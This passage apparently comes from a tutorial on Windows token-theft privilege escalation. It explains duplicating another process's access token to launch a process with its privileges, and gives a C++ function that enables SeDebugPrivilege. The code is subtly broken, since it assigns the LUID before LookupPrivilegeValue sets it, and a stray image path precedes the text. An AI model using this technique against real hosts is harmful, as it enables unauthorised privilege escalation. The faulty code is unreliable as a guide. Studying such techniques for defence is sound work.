 ### technique. practical example

Creating a new process using a "stolen" token from another process is one of the strategies of token manipulation.
This occurs when a token of an existing access token present in one of the active processes on the target host is extracted, duplicated, and then used to create a new process, so granting the new process the privileges of the stolen token.

The following is an overview of the token theft procedure that will be carried out in this practical case:     

![token](/assets/images/71/attack-1.png){:class="img-responsive"}    

First of all, sometimes you do have `SeDebugPrivilege` in your current set of privileges, but it is disabled, so you must turn it on:    

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}
```
